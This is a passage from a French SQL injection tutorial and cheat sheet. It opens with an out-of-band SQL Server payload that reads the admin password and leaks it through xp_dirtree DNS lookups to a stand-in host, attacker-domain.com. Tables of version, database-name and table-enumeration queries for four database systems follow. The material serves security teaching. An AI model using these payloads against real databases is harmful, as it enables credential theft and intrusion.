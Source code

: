 ```sql
'; declare @p varchar(1024); set @p = (SELECT password FROM users WHERE username = 'admin'); exec('master..xp_dirtree ''//' + @p + '.attacker-domain.com/a''')--
```

Cette requête envoie le mot de passe de l'utilisateur admin sous forme de sous-domaine DNS vers le serveur contrôlé par l'attaquant.
Avantages et inconvénients

L'injection SQL hors bande est une méthode puissante car elle fonctionne même lorsque les réponses HTTP ou les délais ne peuvent pas être observés. Cependant, elle nécessite souvent des fonctionnalités spécifiques du serveur de base de données, telles que l'accès à des commandes spécifiques (comme xp_dirtree sur SQL Server) ou la possibilité d'effectuer des requêtes externes. Si ces fonctionnalités sont désactivées ou filtrées, cette méthode devient inefficace.

# Cheat Sheet

## Version de la base de données

| **Database**   | **Payload**    |
|--------------- | --------------- |
| Oracle | SELECT banner FROM v$version; <br/> SELECT version FROM v$instance; |
| Microsoft | SELECT @@version |
| PostgreSQL | SELECT version() |
| MySQL | SELECT @@version |

## Nom de la base de données

| **Database**   | **Payload**    |
|--------------- | --------------- |
| Oracle | SELECT name FROM v$database; |
| Microsoft | SELECT DB_NAME(); |
| PostgreSQL | SELECT current_database(); |
| MySQL | SELECT DATABASE(); |

## Nom des tables

| **Database**   | **Payload**    |
|--------------- | --------------- |
| Oracle |  SELECT owner, table_name FROM all_tables; <br/> SELECT table_name FROM user_tables; |
| Microsoft | SELECT table_name FROM information_schema.tables WHERE table_type = 'BASE TABLE'; <br/> SELECT name FROM sys.tables; | 
| PostgreSQL | SELECT table_name FROM information_schema.tables WHERE table_schema = 'public' AND table_type = 'BASE TABLE'; |
| MySQL | SELECT table_name FROM information_schema.tables WHERE table_schema = 'nom_de_la_base' AND table_type = 'BASE TABLE'; |
